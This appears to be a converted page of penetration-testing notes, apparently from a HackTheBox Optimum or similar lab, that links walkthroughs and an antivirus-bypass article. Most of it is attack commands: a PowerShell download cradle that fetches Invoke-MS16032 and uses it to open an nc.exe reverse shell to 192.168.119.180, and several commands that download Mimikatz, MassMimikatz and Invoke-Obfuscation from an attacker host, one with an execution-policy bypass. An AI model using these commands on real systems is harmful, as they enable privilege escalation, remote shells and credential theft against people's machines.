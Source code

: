 ```{=html}
<!-- -->
```
-   Refrence
    > [[https://vostdev.wordpress.com/2021/02/06/htb-optimum-walk-through/]{.underline}](https://vostdev.wordpress.com/2021/02/06/htb-optimum-walk-through/)

```{=html}
<!-- -->
```
-   IEX(New-Object
    > Net.WebClient).downloadstring(\'http://192.168.119.180/Invoke-MS16032.ps1\');
    > Invoke-MS16032 -Command \'C:\\Users\\Public\\Downloads\\nc.exe -e
    > C:\\Windows\\Sytem32\\cmd.exe 192.168.119.180 443\'

## **POWERSHELL TO RUNNING MIMIKATZ:**

-   [[https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/]{.underline}](https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/)

```{=html}
<!-- -->
```
-   [[https://theitbros.com/managing-windows-defender-using-powershell/]{.underline}](https://theitbros.com/managing-windows-defender-using-powershell/)

-   powershell -c \"(new-object
    > System.Net.WebClient).DownloadFile(\'http://[[192.168.119.153]{.underline}](http://192.168.119.161/Invoke-PowerShellTcp.ps1)/Invoke-Obfuscation.zip\',
    > \'c:\\Users\\Invoke-Obfuscation.zip\')\"

```{=html}
<!-- -->
```
-   Expand-Archive -Path c:\\Users\\Invoke-Obfuscation.zip
    > -DestinationPath c:\\Users\\Invoke-Obfuscation -Verbose

```{=html}
<!-- -->
```
-   powershell -c \"(new-object
    > System.Net.WebClient).DownloadFile(\'http://[[192.168.119.153]{.underline}](http://192.168.119.161/Invoke-PowerShellTcp.ps1)/Invoke-MassMimikatz.ps1\',
    > \'c:\\Users\\Invoke-MassMimikatz.ps1\')\"

```{=html}
<!-- -->
```
-   powershell -c \"(new-object
    > System.Net.WebClient).DownloadFile(\'http://[[192.168.119.153]{.underline}](http://192.168.119.161/Invoke-PowerShellTcp.ps1)/Invoke-Mimikatz.ps1\',
    > \'c:\\Users\\Invoke-Mimikatz.ps1\')\" -bypass executionpolicy

-   powershell -c \"(new-object
    > System.Net.WebClient).DownloadFile(\'http://[[192.168.119.153]{.underline}](http://192.168.119.161/Invoke-PowerShellTcp.ps1)/Invoke-Obfuscation.psd1\',
    > \'c:\\Users\\Invoke-Obfuscation.psd1\')\"
